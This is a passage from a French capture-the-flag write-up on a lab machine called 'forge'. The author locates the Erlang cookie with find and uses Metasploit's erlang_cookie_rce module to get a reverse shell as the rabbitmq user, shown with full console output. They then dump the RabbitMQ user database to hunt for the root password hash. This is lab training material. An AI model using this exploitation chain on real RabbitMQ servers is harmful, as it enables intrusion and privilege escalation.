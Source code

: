 Le nom du fichier qui contient le cookie est **.erlang.cookie**
```
azrael@forge:/usr/bin$ find / -name .erlang.cookie 2</dev/null
/var/lib/rabbitmq/.erlang.cookie
```
J'ai le cookie !
```
Cpz9[...]msg
```
On configure le payload puis on envoi :
```
msf6 exploit(multi/misc/erlang_cookie_rce) > run
[*] Started reverse TCP double handler on 10.14.97.127:4445 
[*] 10.10.119.93:25672 - Receiving server challenge
[*] 10.10.119.93:25672 - Sending challenge reply
[+] 10.10.119.93:25672 - Authentication successful, sending payload
[*] 10.10.119.93:25672 - Exploiting...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo UZsHymI3BqHDRtRr;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "UZsHymI3BqHDRtRr\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.14.97.127:4445 -> 10.10.119.93:59840) at 2025-03-14 13:43:19 -0400
```
j'ai le shell de rabbitmq
```
uid=124(rabbitmq) gid=131(rabbitmq) groups=131(rabbitmq)
rabbitmq@forge:~$ 
```
Je trouve un truc interessant :
```
rabbitmq@forge:~/mnesia/rabbit@forge$ cat rabbit_user.DCD
cat rabbit_user.DCD
cXM
   ������������IbWLA�hd����
log_headerd����dcd_logk����1.0k����4.16.2d����
                                              rabbit@forgehb���������b����\2b����
internal_userm�������������The password for the root user is the SHA-256 hashed value of the RabbitMQ root user's password. Please don't attempt to crack SHA-256.m������������$�'����I27~���:�?�����p6F���
internal_userm������������rootm������������$�׺��|bWLA�hd����
```
Ca parle du root, je pense que je ne suis plus très loin. Je vais essayer avec RabbitMQ de lire ce fichier

Pendant mes recherches je trouve un client qui permet de contacter l'instance RabbitMQ avec le cookie Erlang avec l'argument **--erlang-cookie**!
Voir [ici](https://www.rabbitmq.com/docs/man/rabbitmqctl.8)
